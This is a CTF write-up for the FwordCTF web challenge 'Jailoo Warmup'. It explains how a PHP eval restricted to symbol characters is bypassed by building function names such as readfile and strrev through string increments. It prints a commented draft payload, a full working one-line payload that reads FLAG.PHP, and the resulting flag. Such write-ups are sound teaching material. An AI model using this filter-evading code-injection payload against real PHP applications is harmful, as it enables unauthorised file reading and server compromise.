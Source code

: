 # Jailoo Warmup

## Web, 442 points

### Description

```
Get the flag in FLAG.PHP.

http://jailoowarmup.fword.wtf/
```
Source code is given and is at ./jailoo.php

### Solution

```
    if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
        echo "<div class=\"success\">Command executed !</div>";
        eval($cmd);
```

What interests us from the source code is that we have an `eval` function call for our input if our input respects the regex `/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/`. `eval` function makes it possible to call a PHP function, hence a potential RCE here. At first, it reminded me from a Web challenge from [root-me.org](https://www.root-me.org), I had a lead: as we have to read a PHP file content, I thought directly of `file_get_contents`, `show_source` and `system` functions. We have to note that PHP functions are case insensitive.

The main idea is explained at [https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/) and I used a variation of his method 2 to solve this task. 

First, I was lazy and decided to start from my payload from the Root Me challenge. Here is my commented version payload, so you can compare with securityonline article and better understand:

```
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['_'=='[']; // $_=$_[0];
// $___=$_; // A
$___="";
$__=$_;
$__++;$__++;$__++;$__++;$__++; // F
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // I
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // L
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++; // E
$___.=$__; // append the variable
$__=$_; // reset the variable
$___.='_';

$__++;$__++;$__++;$__++;$__++;$__++; // G
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++; // E
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__; // append the variable
$__=$_; // reset the variable
$___.='_';

$__++;$__++; // C
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // N
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++; // E
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // N
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$___.=$__; // append the variable
$__=$_; // reset the variable

$____='"';
$__=$_;
$__++;$__++;$__++;$__++;$__++; // F
$____.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // L
$____.=$__; // append the variable
$__=$_; // reset the variable
$____.=$__; // A
$__++;$__++;$__++;$__++;$__++;$__++; // G
$____.=$__; // append the variable
$__=$_; // reset the variable
$____.="."; // .
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++; // H
$____.=$__; // append the variable
$__=$_; // reset the variable
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__; // append the variable
$__=$_; // reset the variable
$____.='"'; // append '

$___($____); // FILE_GET_CONTENTS('FLAG.PHP')
```

I realized then that I had to remove characters such as `' @`. I crafted it manually for a time, discovered that FILE_GET_CONTENTS returned me an error, SHOW_SOURCE and SYSTEM as well. These functions were disabled. What a struggle. Finally we decided with SHRECS to automate the generation of the payload with a script, we should have done that from the beginning. Thanks to @face0xff for it.

Finally, after scripting, we remembered readfile function. Final payload is below:

```
$___="";$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$___.=$_;$____="";$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$____.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$____.=$_;$_=[];$_="$_";$_=$_["_"=="["];$____.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$____.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$____.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$____.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$____.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$____.=$_;$______="";$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$______.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$______.=$_;$_=[];$_="$_";$_=$_["_"=="["];$______.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$______.=$_;$_=[];$_="$_";$_=$_["_"=="["];$______.=".";$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$______.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$______.=$_;$_=[];$_="$_";$_=$_["_"=="["];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$______.=$_;$___($____($______));
```

Then we flag:

```
   <div class="card-text">
   			<h3>RUN</h3>
   			<form action="" method="post">
			  <div class="form-group">
			    <textarea name="cmd" class="form-control" id="textarea" rows="4"></textarea>
			  </div>
			  <button type="submit" name="submit" class="btn btn-primary">execute</button>
			</form>
	</div>
	<div class="success">Command executed !</div>
    <!--?
    $flag="FwordCTF{Fr0m_3very_m0unta1ns1d3_l3t_fr33d0m_r1ng_MLK}";
    ?-->
```

### Script

Payload generator is at ./exploit.py.